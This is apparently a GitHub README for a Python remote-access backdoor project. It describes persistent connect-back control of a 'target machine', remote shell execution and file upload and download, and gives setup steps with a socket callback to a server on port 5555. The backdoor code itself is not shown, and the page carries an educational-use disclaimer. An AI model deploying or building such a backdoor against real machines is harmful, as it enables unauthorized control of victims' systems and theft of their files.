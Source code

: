 # 🐍 Backdoor and Server Project

This project is a Python implementation of a simple backdoor and server communication system. The backdoor (`backdoor.py`) connects to a server (`server.py`) to execute commands, transfer files, and maintain communication.

⚠️ **Disclaimer:** This code is for educational purposes only. Unauthorized use or deployment of this code for malicious purposes is strictly prohibited and may be illegal. Use responsibly and ethically.

---

## 🚀 Features

- 📡 Persistent backdoor connection
- 🔄 File upload and download functionality
- 🖥️ Remote shell execution
- 🗂 Directory navigation support

---

## 📂 Project Structure

    ├── backdoor.py   # Backdoor script to connect to the server
    ├── server.py     # Server script to manage the backdoor
    
## ⚙️ Setup

1. Ensure you have Python 3.x installed on both server and target machines.

2. Update the IP address in both backdoor.py and server.py to match the server's IP:
   ```bash
    s.connect(('192.168.1.1', 5555))  # In backdoor.py
    sock.bind(('192.168.1.1', 5555))  # In server.py
   ```
   
3. Running the server:
```bash
python3 server.py
```

4. Running the Backdoor on target machine:
```bash
python3 backdoor.py
```

## 📜 Usage
Example Commands
- Change Directory: cd /path/to/directory
- Upload File: upload example.txt
- Download File: download example.txt
- Execute Shell Command: ls -la
- Terminate Connection: quit

## 📌 Note
This repository is not responsible for any harm or damage caused by improper use of this code. Always adhere to ethical hacking guidelines and ensure compliance with the law.

